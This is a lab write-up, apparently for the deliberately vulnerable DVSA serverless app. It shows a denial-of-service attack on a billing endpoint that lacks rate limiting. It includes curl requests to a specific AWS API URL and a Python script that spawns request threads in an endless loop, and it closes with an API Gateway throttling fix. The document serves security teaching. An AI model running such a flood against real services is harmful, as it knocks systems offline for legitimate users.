



# Lesson 6: Denial of Service (DoS)

## What is this?
The billing endpoint has no rate limiting. Sending 50 requests at the same time overwhelms the service and blocks real users.

## How to Reproduce
1. Set the API URL and token:
```bash
export API="https://nuxbyqip03.execute-api.us-east-1.amazonaws.com/dvsa/order"
export TOKEN= # Add the token 
```

2. Create order
```bash
curl -s "$API" -H "content-type: application/json" -H "authorization: $TOKEN" \
  -d '{"action":"new","cart-id":"race-cart-001","items":{"1":1}}' | jq
```

3. Add shipping
```bash
export ORDER_ID= # Add the order id 
curl -s "$API" -H "content-type: application/json" -H "authorization: $TOKEN" \
  -d '{"action":"shipping","order-id":"'"$ORDER_ID"'","data":{"address":"123 Test St","email":"test@test.com","name":"Test User"}}' | jq
```

4. Run the flood 
```bash
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://nuxbyqip03.execute-api.us-east-1.amazonaws.com/dvsa/order"
    headers = {"Authorization": #we add the token here}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()
```


## What we see
Mass 500 errors the service is overwhelmed and crashes.


## Fix applied
Added throttling in API Gateway:
- Go to API Gateway → DVSA-APIS → Stages → dvsa
- Set Rate: 5 requests/second, Burst: 10




No code changes were needed, this is a configuration fix.

## After Fix:



## Takeaway
This lesson shows that without rate limiting, attackers can overwhelm the service with simple concurrent requests, causing denial of service for legitimate users. Applying throttling at the API Gateway level ensures that excessive traffic is blocked early, protecting backend resources and maintaining system availability.